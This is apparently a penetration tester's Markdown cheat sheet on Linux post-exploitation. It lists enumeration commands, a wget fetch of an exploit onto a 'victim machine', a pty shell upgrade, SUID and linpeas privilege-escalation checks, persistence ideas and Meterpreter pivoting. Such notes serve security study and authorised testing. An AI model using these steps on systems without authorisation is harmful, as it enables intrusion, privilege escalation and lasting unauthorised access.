 # Linux Post Exploitation


## Enumeration

    uname -a
       
    ps -aux 
    
    id
    
      Find out if the user is part of groups with interesting files
      
      find / -type f -group <group> 2>/dev/null
   
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
         <hostshare>/Tools/Exploit/Discovery
          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l

    
 
## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
## Exploits

    searchsploit <linux kernel version>
   
    searchsploit <linux version>

## Upgrading basic shell to terminal 

    python -c 'import pty;pty.spawn("/bin/bash")';
    
    
## Privilege Escalation

[Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[guide to priv escalation](https://payatu.com/guide-linux-privilege-escalation)

Check /etc/passwd for user/ group ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start
    
  - [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
   
        curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
        
        https://book.hacktricks.xyz/linux-unix/privilege-escalation

 **Check for SUID (set owner userId upon execution)**
 
  [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it). When looking at permissions the "x" for the owner will be an "s". [Past shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
   
    find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"


   
 
 ## Maintain persistence

  - Add user
  

  - Metasploit


  - Set a scheduled task
  
  
## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
# Find more

  Metasploit
  
    post/linux/



